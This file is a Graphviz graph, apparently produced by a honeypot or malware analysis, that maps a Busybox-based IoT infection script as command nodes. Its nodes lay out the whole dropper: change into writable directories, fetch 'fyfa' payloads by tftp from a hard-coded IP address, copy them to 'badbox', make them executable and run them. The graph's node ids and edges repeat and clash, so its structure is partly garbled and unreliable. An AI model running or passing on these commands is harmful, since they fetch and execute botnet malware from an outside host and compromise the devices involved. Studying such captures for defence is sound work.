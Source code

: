 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 14 [label="||,"];
14 [label="tftp -r fyfa -g 192.210.220.197 "];
14 -> 16 [label=";,"];
16 [label="cat fyfa badbox "];
16 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 34 [label="||,"];
34 [label="tftp -r fyfa1 -g 192.210.220.197 "];
34 -> 36 [label=";,"];
36 [label="cat fyfa1 badbox "];
36 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 54 [label="||,"];
54 [label="tftp -r fyfa2 -g 192.210.220.197 "];
54 -> 56 [label=";,"];
56 [label="cat fyfa2 badbox "];
56 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 74 [label="||,"];
74 [label="tftp -r fyfa3 -g 192.210.220.197 "];
74 -> 76 [label=";,"];
76 [label="cat fyfa3 badbox "];
76 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 94 [label="||,"];
94 [label="tftp -r fyfa4 -g 192.210.220.197 "];
94 -> 96 [label=";,"];
96 [label="cat fyfa4 badbox "];
96 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 114 [label="||,"];
114 [label="tftp -r fyfa5 -g 192.210.220.197 "];
114 -> 116 [label=";,"];
116 [label="cat fyfa5 badbox "];
116 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 134 [label="||,"];
134 [label="tftp -r fyfa6 -g 192.210.220.197 "];
134 -> 136 [label=";,"];
136 [label="cat fyfa6 badbox "];
136 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 154 [label="||,"];
154 [label="tftp -r fyfa7 -g 192.210.220.197 "];
154 -> 156 [label=";,"];
156 [label="cat fyfa7 badbox "];
156 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 174 [label="||,"];
174 [label="tftp -r fyfa8 -g 192.210.220.197 "];
174 -> 176 [label=";,"];
176 [label="cat fyfa8 badbox "];
176 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 194 [label="||,"];
194 [label="tftp -r fyfa9 -g 192.210.220.197 "];
194 -> 196 [label=";,"];
196 [label="cat fyfa9 badbox "];
196 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r fyfa10 -g 192.210.220.197 "];
214 -> 216 [label=";,"];
216 [label="cat fyfa10 badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
}
